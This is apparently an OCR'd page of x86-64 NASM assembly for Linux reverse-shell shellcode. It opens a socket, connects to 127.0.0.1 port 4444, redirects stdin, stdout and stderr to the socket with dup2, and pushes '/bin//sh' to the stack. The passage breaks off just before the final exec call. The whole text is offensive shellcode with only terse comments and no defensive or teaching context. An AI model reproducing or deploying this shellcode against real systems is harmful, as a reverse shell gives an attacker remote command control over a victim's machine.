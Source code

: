 ```nasm
global _start

_start:

	; sock = socket(AF_INET, SOCK_STREAM, 0)
	; AF_INET = 2
	; SOCK_STREAM = 1
	; syscall number 41

	mov rax, 41
	mov rdi, 2
	mov rsi, 1
	mov rdx, 0
	syscall

	; copy socket descriptor to rdi for future use
	mov rdi, rax

	; server.sin_family = AF_INET
	; server.sin_port = htons(PORT)
	; server.sin_addr.s_addr = INADDR_ANY
	; bzero(&server.sin_zero, 8)

	xor rax, rax

	push rax

	mov dword [rsp - 4], 0x0100007f
	mov word [rsp - 6], 0x5c11
	mov word [rsp - 8], 0x2
	sub rsp, 8

	; connect(sock, (struct sockaddr *)&server, sockaddr_len)

	mov rax, 42
	mov rsi, rsp
	mov rdx, 16
	syscall

	; duplicate sockets
	; dup2 (new, old)
	mov rax, 33
	mov rsi, 0
	syscall

	mov rax, 33
	mov rsi, 1
	syscall

	mov rax, 33
	mov rsi, 2
	syscall

	; first null push
	xor rax, rax
	push rax

	; push /bin//sh in reverse
	mov rbx, 0x68732f2f6e69622f
	push rbx

	; store /bin//sh address in RDI
	mov rdi, rsp
```